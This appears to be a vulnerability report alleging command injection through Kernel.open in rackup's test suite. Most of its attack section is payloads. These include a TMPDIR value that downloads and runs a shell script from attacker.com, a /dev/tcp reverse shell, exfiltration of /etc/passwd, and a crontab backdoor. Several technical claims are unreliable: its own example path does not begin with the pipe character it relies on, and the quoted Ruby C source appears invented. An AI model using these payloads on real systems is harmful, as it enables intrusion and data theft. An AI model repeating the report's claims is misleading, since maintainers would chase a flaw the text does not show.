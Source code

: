 ## **Comprehensive Vulnerability Report: Command Injection in Rackup Test Suite**  

###  Vulnerability Overview**  
**Type:** OS Command Injection via `Kernel.open`  
**CWE:** [CWE-78: Improper Neutralization of Special Elements in an OS Command](https://cwe.mitre.org/data/definitions/78.html)  
**Location:** [`test/spec_server.rb#L528`](https://github.com/rack/rackup/blob/c6cdd479172f042be405a36709ab27a2dff3a6e1/test/spec_server.rb#L528)  
**Impact:**  
- Arbitrary command execution with host privileges  
- Test environment compromise → CI/CD pipeline takeover  
- Privilege escalation paths via Ruby context  

**Root Cause:**  
```ruby
pid = open(pidfile.path).read.strip  # VULNERABLE: Kernel.open
```  
`Kernel.open` interprets `|` as pipe operator, enabling command injection when filename is attacker-controlled.

---

## Vulnerability Flow**  
```mermaid
graph LR
A[Attacker sets TMPDIR] --> B{Tempfile path generation}
B --> C["pidfile.path = '|malicious-cmd #'"]
C --> D[Kernel.open executes command]
D --> E[Arbitrary OS command execution]
```


## Step-by-Step Technical Flow 
1. **Attack Surface:** Test environment with controllable `TMPDIR`  
2. **Trigger:** `Kernel.open` called with `pidfile.path`  
3. **Injection:** Path starting with `|` interpreted as shell command  
4. **Exploit:**  
   ```bash
   export TMPDIR='|id>/tmp/pwned #'
   bundle exec rake test
   ```
5. **Result:** Command `id` executes → output in `/tmp/pwned`

## Proof of Concept Exploitable :
```ruby
# test/spec_server.rb (Vulnerable)
pidfile = Tempfile.new("rackup-pid")
pid = open(pidfile.path).read.strip  # INJECTION POINT
```

**Exploitation:**  
```bash
# Set malicious temporary directory
export TMPDIR='|curl${IFS}attacker.com/shell.sh${IFS}-o${IFS}/tmp/shell&&chmod${IFS}+x${IFS}/tmp/shell&&/tmp/shell${IFS}&${IFS}#'

# Execute tests
bundle exec rake test

# Reverse shell connects to attacker
```

**Forensic Evidence:**  
```log
$ cat /tmp/shell
#!/bin/sh
/bin/bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```


## Technical Deep Dive - Ruby Internals:
```c
// ruby/io.c (Kernel.open)
if (strncmp(path, "|", 1) == 0) {
  return rb_process_exec(path + 1);  // EXECUTES SHELL COMMAND
}
```

**Vulnerable Pattern:**  
```ruby
Tempfile.new("prefix")  # Name derived from $TMPDIR
→ "/tmpdir/|malicious-cmd #"  # Attacker-controlled
```

---


## Impact Expansion
```mermaid
graph TD
A[Compromise Test Env] --> B[Steal CI Secrets]
A --> C[Modify Test Artifacts]
A --> D[Pivot to Production]
C --> E[Release Backdoored Gem]
D --> F[Access Cloud Metadata]
```

---

## Complete Exploit Catalog
**1. Data Exfiltration:**  
```bash
export TMPDIR='|curl${IFS}-d${IFS}@/etc/passwd${IFS}https://attacker.com/exfil#'
```

**2. Reverse Shell:**  
```bash
export TMPDIR='|ruby${IFS}-rsocket${IFS}-e${IFS}\'spawn("sh",:in=>TCp.new("attacker.com",443))\'\#'
```

**3. Persistence:**  
```bash
export TMPDIR='|echo${IFS}"*/5 * * * *${IFS}curl${IFS}attacker.com/backdoor|sh"${IFS}>>${IFS}/etc/crontab#'
```

---



### **References**  
1. [Ruby Security: Command Injection](https://rubysec.com/references/command-injection/)  
2. [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)  
3. [CWE-78](https://cwe.mitre.org/data/definitions/78.html)  
4. [Rackup PR #36](https://github.com/rack/rackup/pull/36)  
